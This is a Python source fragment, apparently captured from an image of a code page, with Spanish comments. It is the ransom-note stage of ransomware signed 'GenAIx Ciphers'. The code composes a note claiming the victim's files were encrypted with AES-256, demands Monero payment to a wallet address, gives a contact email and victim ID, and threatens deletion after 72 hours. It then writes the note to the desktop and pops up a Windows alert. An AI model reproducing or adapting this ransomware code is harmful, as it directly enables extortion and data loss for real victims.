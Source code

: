 ```python
    victim_id = agent.get_agent_id()

    # Contenido de la nota de rescate con Monero (XMR) como la criptomoneda de pago
    note = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con **AES-CBC** de **256 bits**.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en **Monero (XMR)** a la siguiente dirección:
   42xu1n15ewNsd9qzT8x5nHg9vZo1CwFFZZQHd3Lg8T2m8GeHkhsK69h5UBktZkVqz6hbsYYhPz9dggtZyPjvdyDveWipQUF

2. Envía un correo a recoveryourfiles@genaixciphers.com con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: {victim_id}

3. Una vez confirmado el pago, recibirás la clave y el software de descifrado.

----------------------------
 ¡ADVERTENCIAS!
----------------------------
- No intentes modificar o recuperar archivos por tu cuenta. 
- Cualquier intento de descifrado sin nuestra clave puede dañar los archivos de manera irreversible.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

----------------------------
  INFORMACIÓN SOBRE TU CLAVE 
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (NO INTENTES MODIFICARLA):

{aes_key_formatted}

Atentamente, 
GenAIx Ciphers
"""

    # Ruta donde se guardará la nota de rescate
    note_path = os.path.join(desktop, "README_IMPORTANTE.txt")

    # Guardar la nota en un archivo de texto en el escritorio
    with open(note_path, "w", encoding="utf-8") as archivo:
        archivo.write(note)

    # Mostrar un mensaje emergente usando MessageBox de Windows
    ctypes.windll.user32.MessageBoxW(0, "¡Tus archivos han sido cifrados! Lee el archivo README_IMPORTANTE.txt en tu escritorio.", 
                                     "ALERTA DE SEGURIDAD", 0x10 | 0x1)
```
